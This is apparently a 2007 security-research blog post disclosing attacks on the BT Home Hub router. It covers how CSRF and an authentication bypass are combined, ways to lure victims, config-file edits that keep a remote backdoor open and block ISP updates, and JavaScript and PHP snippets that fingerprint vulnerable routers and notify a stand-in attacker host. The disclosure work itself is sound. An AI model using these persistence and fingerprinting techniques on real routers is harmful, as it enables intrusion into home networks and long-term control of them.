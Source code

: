 ```yaml
---
title: BT Home Flub Pwnin The BT Home Hub (2)
author: adrian-pastor
date: Tue, 16 Oct 2007 22:02:03 GMT
template: post.jade
---
```


In this post I'll elaborate a bit more on our [demo video](http://stage6.divx.com/user/gnucitizen/video/1722388/BT-Home-Flub) previously released and what the intruder can do to remotely access the Home Hub _anytime and from anywhere_ after it's been been broken into.  You are recommended to read the [first part](/blog/bt-home-flub-pwnin-the-bt-home-hub) of this post if you haven't done so yet.

So here is the attack illustrated in the demo video. The victim user is tricked - through Gtalk - to visit a website that contains malicious code. The malicious code runs in the background and does NOT exploit any vulnerabilities on the victim's browser at all, neither does it rely on ActiveX, therefore it's not picked up by anti-spyware/antivirus software. The malicious code is a simple combination of HTML and JavaScript, which exploits two vulnerabilities on the Home Hub (note that there are other vulnerabilities we found as well):

* CSRF
* Authentication bypass bug (thanks to this the exploit works even if the user has changed the default admin password)

After the victim user visits the malicious website, he's redirected to a funny video of [Techno Viking](http://www.google.com/search?ie=UTF-8&oe=UTF-8&sourceid=navclient&gfns=1&q=techno+viking) hosted by Youtube. Thus, the victim is distracted away from the fact that his router has just been compromised. There are other things we could have done on the malicious website besides a redirect to a Youtube video. For instance, we could have simply embedded third-party content from other websites through iframes in order to distract the victim from the fact that he's been victim of an attack.

### Tricking the victim to visit the evil site

We've been asked by some non-technical users how would the intruder incite the victim to visit the malicious link. Malware criminals are experts at finding ways to attract people to their malicious websites. Well, there are plenty of examples we can give. The following are some:

* Through a chat conversation (i.e.: messenger or IRC)
* Through emails delivered in a mass fashion targeting [UK email addresses](http://mail.google.com/mail/help/intl/en-GB/googlemail.html)
* By placing the malicious link on a popular website where it's common to find user-generated content. i.e.: Youtube, Myspace, Facebook, Bebo ...
* Through a website that claims to offer free porn
* Through a website that claims to offer  free [warez](http://en.wikipedia.org/wiki/Warez)
* Black [SEO](http://en.wikipedia.org/wiki/Search_engine_optimization)
* By setting up a blog through which the audience is [involved emotionally](http://www.spamfighter.com/News_Read_Spamfighter.asp?UID=419) regarding a current issue

### Backdooring the Home Hub PERMANENTLY

Once the router has been compromised the attacker gets an email (as shown in the [demo video](//www.youtube.com/watch?v=i4tkM3UtF1Y)) with the URL needed to access the Home Hub remotely using the "tech support" account - a.k.a. remote assistance. The attacker then logs in using the username 'tech' and a password which was chosen by her and was set when the malicious website was loaded in the victim user's browser. At this point, the intruder can do anything to the router. For instance, because remote assistance gets disabled after 20 minutes of inactivity, the intruder can do the following in order to make sure that she can come back any time to the router to tamper with it:

* Save the Home Hub config file (contains all router settings including the passwords for any services the victim is subscribed to)
* Add the following line in the config file under the `[ servmgr.ini ]` section: `ifadd name=HTTPs group=wan`
* Reload the modified config file so the new changes take place
* Configure the dynamic dns service (if the victim is not currently using it) using the web interface

At this point, the intruder can come back anytime remotely to the Home Hub, even after the remote assistance connection has timed out (happens after 20 mins of inactivity by default). The credentials she would use to login are the same one that were set when the attack took place (username 'tech' and a password of her choice). The cool thing is that although BT Broadband doesn't support static IP addresses, the intruder can simply bypass this restriction and always find the victim router's IP address thanks to it supporting serveral popular (and free) dynamic DNS services!

### Detecting a potentially vulnerable router

When preparing the exploit shown in the video, the malicious code could do either of the following before the actual exploit is submitted to the router:

* do not check if the victim user uses a vulnerable router
* perform some sort of check that concludes with a significant probability whether the victim user's router is vulnerable

The first approach is typically followed by classic worms: the payload is executed no matter what. If the router is vulnerable, then it'll be compromised, otherwise nothing would happen. From the user's end, there is no difference as everything happens in the background.

However, if the intruder wants to be stealth, he will craft the malicious webpage in such a way the exploit is only launched if the victim uses a potentially vulnerable router. This is a more elegant way to perform the attack and minimizes the chances of someone discovering the exploit and making it public.

The following are two simple techniques that can be used. The first technique simply checks if the IP address used by the BT Home Hub is serving a certain image:

    var notifyURL="http://evil.anydomain.com/bthomehubhack/notify.php";
    var imgsrc = 'http://192.168.1.254/images/head_wave.gif';
    var fingerprint_img = new Image();
    fingerprint_img.onerror = function (evt) {
        ; // can't be loaded - couldn't find a vulnerable router
    }
    // only notify attacker if potential vulnerable Thomson Speedtouch / BT Homehub router found
    fingerprint_img.onload = function (evt) {
        C=new Image();
        C.src=notifyURL;
    }

    The second technique simply checks for substrings within the [reverse DNS](http://en.wikipedia.org/wiki/Reverse_DNS_lookup) (PTR record) of the victim router. The following is an example of a reverse DNS record used by a BT Home Hub:

    host86-134-193-152.range86-134.btcentralplus.com

    In PHP we could check for the string 'btcentralplus.com' like this:

    <?php
    $ptr=gethostbyaddr($_SERVER['REMOTE_ADDR']);
    // if string "btcentralplus.com" is contained within victim's reverse lookup
    if(strstr($ptr, "btcentralplus.com")) {
       // then print exploit code
       // EVIL CSRF/AUTH BYPASS CODE GOES HERE!
    }
    ?>

    ### Preventing BT from fixing the vulnerabilities on Hubs that have been owned

    The BT Home Hub has a very neat feature called Auto-Update. The way the feature works is that the BT Home Hub connects regularly to remote servers located on `pbthdm.bt.motive.com`, which can push settings back to the Hub. There have been some concerns over this feature in the Internet community and I can see why. In essence, this feature is a backdoor which allows BT to do anything to your Home Hub remotely. Sure this is meant to be for updates that add new features and/or fix vulnerabilities. The question is, do you trust your ISP to have permanent control of your Internet gateway? I personally don't like the possibility of a disgruntled BT employee being able to tamper with my Home Hub remotely! Not to mention that this feature has [bricked](http://www.digitalspy.co.uk/forums/showthread.php?t=491560) Home Hubs in the past after customizing the configuration.

    An intruder would probably want to avoid any chance of BT disabling her backdoor after auto-updates are applied. Disabling updates can be as easy as changing the following line in the config file to point to a dummy (non-existing) URL. Note that we have NOT tested this idea, but it should work. After all, the intruder can save new changes in the config file using the tech support account.

    server config url=**https://useless-domain.foo/** username=XXXXXXXXXXXXXXXXX password=XXXXXXXXXXXXXXXXX

Perhpaps, the most effective way in which a cracker can break into BT Home Hubs in a mass fashion is by compromising the autoupdate servers. Then, from there, one could push changes back to the Hubs' config files. Imagine someone updating all BT Home Hubs in the UK with remote HTTPs enabled and accessible with a password of her choice. What a botnet would that make! Scary.

### Credits where due

_[pdp](http://www.gnucitizen.org/about/pdp) and I would like to thank Jan Fry and Vijay Thakorlal for helping us testing attacks._
